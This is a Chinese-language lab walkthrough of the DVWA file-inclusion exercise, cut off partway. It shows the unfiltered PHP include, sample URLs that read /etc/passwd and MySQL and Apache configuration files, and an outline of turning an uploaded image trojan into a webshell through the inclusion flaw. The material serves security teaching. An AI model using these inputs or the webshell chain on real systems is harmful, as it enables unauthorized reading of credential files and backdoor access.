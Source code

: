 
- low security
  - 对包含的文件没有进行任何的过滤，可以进行包含<u>任意的文件</u>

    ```php
    <?php

        $file = $_GET['page']; //The page we wish to display 

    ?>
    ```

  - 环境中给出的地址如下：http://192.168.50.129/dvwa/vulnerabilities/fi/?page=include.php，则我们在/var/www/dvwa/vulnerabilities/fi/目录下创建文件 1.php，写入`<?php echo "hihi";?>`

    <img src="fileinclusion-test.png" alt="image-20200805143852598" style="zoom:50%;" />

  - 在浏览器中输入http://192.168.50.129/dvwa/vulnerabilities/fi/index.php?page=1.php 或者是http://192.168.50.129/dvwa/vulnerabilities/fi/?page=1.php，则会运行 1.php 代码
    
    或者尝试包含账号密码、系统信息、敏感文件

    ```hmtl
    http://192.168.50.129/dvwa/vulnerabilities/fi/?page=/etc/passwd
    http://192.168.50.129/dvwa/vulnerabilities/fi/?page=/etc/mysql/my.cnf
    http://192.168.50.129/dvwa/vulnerabilities/fi/?page=/etc/apache2/apache2.conf
    http://192.168.50.129/dvwa/vulnerabilities/fi/?page=/etc/hosts
    http://192.168.50.129/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/robots.txt
    # robots 网络爬虫排除标准 是爬虫爬取的公共协议和行业规范，表示哪些不能爬取
    ```

    ![](fileinclusion-test2.png)

  ---

  本地文件包含+webshell

  - 制作一句话图片木马

    1. 工具 edjpgcom：https://blog.csdn.net/santtde/article/details/92849299 - 说实话未成功
    2. 手动制作：https://www.15qq.cn/hacker_script/12.html - 通过 copy

  - 上传图片木马文件 - 通过文件上传漏洞 upload

    - 此时可以在浏览器中打开图片(通过访问 /hackable/uploads 目录)，图片正常显示，但是图片中包含的 shell 并不会执行，因为服务器不会执行静态资源
    - 我们需要的是图片在服务器被当成程序执行

  - 执行文件包含并生成后门

    - 图片位置不一致

      ```html
      # 文件上传目录
      /var/www/dvwa/hackable/uploads/
      # 文件包含目录
      /var/www/dvwa/vulnerabilities/fi/
      